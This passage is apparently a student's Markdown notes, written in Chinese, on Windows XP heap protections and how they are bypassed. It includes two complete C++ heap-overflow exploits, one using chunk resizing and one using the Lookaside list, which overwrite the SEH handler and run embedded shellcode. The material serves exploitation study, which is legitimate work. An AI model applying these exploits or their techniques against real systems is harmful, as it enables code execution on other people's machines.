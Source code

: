 # notes about chapter 15
## from 15.1

微软在之前堆的基础上增加了堆的安全校验：

1. PEB random
2. Safe Unlink

Safe Unlink机制：

Windows sp2之前链表的拆卸操作：

```
int remove (ListNode * node)
{
    node -> blink -> flink = node -> flink; 
    node -> flink -> blink = node -> blink; 
    return 0;
}
```


SP2在进行删除操作时，将提前验证堆块前向指针和后向指针的完整性，以防止发生DWORD SHOOT：

```
int safe_remove (ListNode * node)
{
    if( (node->blink->flink==node)&&(node->flink->blink==node) )
    {
        node -> blink -> flink = node -> flink; 
        node -> flink -> blink = node -> blink; 
        return 1;
    }
    else
    {
        链表指针被破坏，进入异常
        return 0;
    }
}
```

3. heap cookie
* cookie被布置在堆首部分原堆块的segment table的位置，占1个字节大小

![](./show1.JPG)

4. 元数据加密


## from 15.4 利用chunk 重设大小攻击堆

freelist[0]

blink:0x003A0688

flink:0x003A0688

chunk:

0x003A0680:0x0130,0x0008

0x003A0688:0x003A0178,0x003A0178

windows xp pro sp3中开始拆卸链表地址：0x7C930F11

拆卸前（freelist[0]指向尾块）：

地址|十六进制数据|十六进制数据
----|---------------------|----------
003A0178|88 06 3A 00|88 06 3A 00

链表拆卸完毕后：

地址|十六进制数据|十六进制数据
----|---------------------|----------
003A0178|78 01 3A 00|78 01 3A 00

然后将旧chunk flink赋值给新的chunk flink，将旧chunk->flink->blink=新chunk->blink的：

![](./dbg1.JPG)

![](./dbg2.JPG)

旧chunk->flink->blink->flink=新chunk的指针结构的起始地址：

![](./dbg3.JPG)

总结：

```
1 // 设置 new_chunk
2 new_chunk->Flink = old_chunk->Flink
3 new_chunk->Blink = old_chunk->Flink->Blink 
4 // 将 new_chunk 插入到 FreeList[]
5 old_chunk->Flink->Blink->Flink = new_chunk
6 old_chunk->Flink->Blink = new_chunk
```

可以看到old_chunk->Flink->Blink->Flink = new_chunk存在dword shoot漏洞，如将old_chunk->Flink 覆盖为 0xAAAAAAAA，则：

```
[new_chunk->Flink] = 0xAAAAAAAA
[new_chunk->Blink] = [0xAAAAAAAA+4]             
[[0xAAAAAAAA+4]] = new_chunk   // DWORD SHOOT    
[0xAAAAAAAA+4] = new_chunk                   
```

代码：

```C++
#include <stdio.h>
#include <windows.h>
 
char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x10\x01\x10\x00\x99\x99\x99\x99"

"\xEB\x06\x3a\x00\xEB\x06\x3a\x00"

"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xEB\x31\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

"\x11\x01\x10\x00\x99\x99\x99\x99\x8C\x06\x3a\x00\xb4\xFF\x12\x00"
"\x90\x90\x90\x90"

"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x74\x65\x73\x74\x68\x6D\x69\x78\x69\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8";

void main()
{	
	HLOCAL h1,h2;
	HANDLE hp;
	hp = HeapCreate(0,0x1000,0x10000);
	__asm int 3
		h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	memcpy(h1,shellcode,300);
	h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	int zero=0;
	zero=1/zero;
	printf("%d",zero);
}

```

memcpy之前的chunk结构：

![](./dbg4.JPG)

若将旧的chunk flink blink 覆盖为0x003A06EB，将0x003A06EB覆盖为SEH地址0x0012FFB4，第二次申请的时候会有：

```
[0x003A06B8]=0x003A06EB
[0x003A06B8+4]=0x0012FFE4
[0x0012FFE4]= 0x003A06B8
[0x003A06EB+4]=0x003906B8
```

覆盖完毕：

![](./dbg5.JPG)

通过两个跳转跳到shellcode：

![](./dbg6.JPG)

执行shellcode：

![](./success1.JPG)

## from 15.4 利用Lookaside 表进行堆溢出

代码：

```C++

#include <stdio.h>
#include <windows.h>
 
	char shellcode []=
	"\xEB\x40\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"//填充
	"\x03\00\x03\x00\x5C\x01\x08\x99"//填充
	"\xb4\xFF\x12\x00"//用默认异常处理函数指针所在位置覆盖 //根据实际情况调整
 
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"//填充
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"//填充
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"//填充
 
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
	"\x53\x68\x74\x65\x73\x74\x68\x6D\x69\x78\x69\x8B\xC4\x53\x50\x50"
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8";

 
void main()
{
	HLOCAL h1,h2,h3;
	HANDLE hp;
	hp = HeapCreate(0,0,0);
	//__asm int 3
	h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	h3 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	HeapFree(hp,0,h3);
	HeapFree(hp,0,h2);
	memcpy(h1,shellcode,300);
	h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	h3 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	memcpy(h3,"\x90\x1E\x3a\x00",4);
	int zero=0;
	zero=1/zero;
	printf("%d",zero);
}
```
